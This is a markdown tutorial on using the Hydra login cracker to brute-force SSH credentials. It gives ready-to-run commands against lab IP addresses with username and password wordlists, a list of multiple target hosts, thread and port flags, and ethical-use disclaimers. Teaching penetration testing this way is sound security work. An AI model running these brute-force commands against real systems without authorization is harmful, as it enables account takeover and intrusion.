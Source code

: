```yaml
---
title: "How to Use Hydra to Brute-Force SSH Connections"
description: "Learn more about Hydra"
icon: "code"
draft: false
---
```


Brute-forcing SSH connections using Hydra is a common technique in penetration testing and ethical hacking. This guide explores the practical usage of Hydra for brute-forcing SSH, focusing on various scenarios and configurations to maximize the efficiency of your attacks. Remember, this should only be used for ethical purposes, such as testing the security of your systems.

## Understanding SSH (Secure Shell)

**SSH (Secure Shell)** is a cryptographic network protocol used for secure data communication, remote command-line login, and other secure network services between two networked computers. It ensures that the data transferred over the network is encrypted and secure, preventing eavesdropping and interception by malicious entities.

## What is Hydra?

**Hydra** is an open-source, parallelized login cracker that supports numerous protocols, including SSH. It is a versatile tool included in many penetration testing distributions like Kali Linux, allowing users to perform dictionary and brute-force attacks on various services. Hydra's ability to test multiple combinations of usernames and passwords makes it a valuable tool for security professionals.

## Practical Usage of Hydra

Hydra can be utilized in various scenarios to test the robustness of SSH credentials. Below, we outline several common use cases and configurations.

**Note, you can use your own IP address to perform these actions**

### Example 1: Brute-Forcing Both Usernames and Passwords

To brute-force both usernames and passwords, you can use the following command:

```bash
hydra -L user.txt -P pass.txt 192.168.29.135 ssh -t 4
```

- **-L**: Specifies a username wordlist.
- **-P**: Specifies a password wordlist.
- **-t**: Sets the number of parallel tasks (threads) to 4.

In this example, Hydra will attempt to match usernames from `user.txt` with passwords from `pass.txt` on the SSH server at `192.168.29.135`.

### Example 2: Brute-Forcing Passwords

To brute-force passwords for a specific username, use:

```bash
hydra -l msfadmin -P pass.txt 192.168.29.135 ssh -t 4
```

- **-l**: Specifies a single username.
- **-P**: Specifies a password wordlist.

This command tests the passwords from `pass.txt` for the username `msfadmin` on the target SSH server.

### Example 3: Brute-Forcing Usernames

To brute-force usernames for a known password:

```bash
hydra -L user.txt -p msfadmin 192.168.29.135 ssh -t 4
```

- **-L**: Specifies a username wordlist.
- **-p**: Specifies a single password.

This command tests usernames from `user.txt` against the password `msfadmin`.

## Utilizing Special Flags in Hydra

Hydra provides various flags to fine-tune the brute-forcing process. Here are some examples:

### Changing the Number of Threads

```bash
hydra -L user.txt -P pass.txt 192.168.29.229 ssh -t 5
```

- **-t**: Sets the number of threads to 5.

### Changing the Port Number

```bash
hydra -s 22 -L user.txt -P pass.txt 192.168.29.229 ssh -t 5
```

- **-s**: Specifies the port number (22 in this case).

### Brute-Forcing a List of IPs

```bash
hydra -L user.txt -P pass.txt -M ip.txt ssh -t 4
```

- **-M**: Specifies a list of IP addresses.

### Enabling Verbose Mode and Using `-e nsr` Flag

Verbose mode provides detailed output:

```bash
hydra -l msfadmin -P pass.txt 192.168.29.229 -V -e nsr ssh
```

- **-V**: Enables verbose mode.
- **-e nsr**: Tries null, same, and reversed username as passwords.

### Displaying Help Menu

To learn more about Hydra's usage:

```bash
hydra -h
```

- **-h**: Displays the help menu.

## Conclusion

Hydra is a powerful tool for security testing, but it must be used responsibly. Unauthorized use of brute-forcing techniques is illegal and unethical. Always ensure you have explicit permission to test the security of any system.

By understanding and applying these techniques, security professionals can better assess the strength of their systems and improve their overall security posture.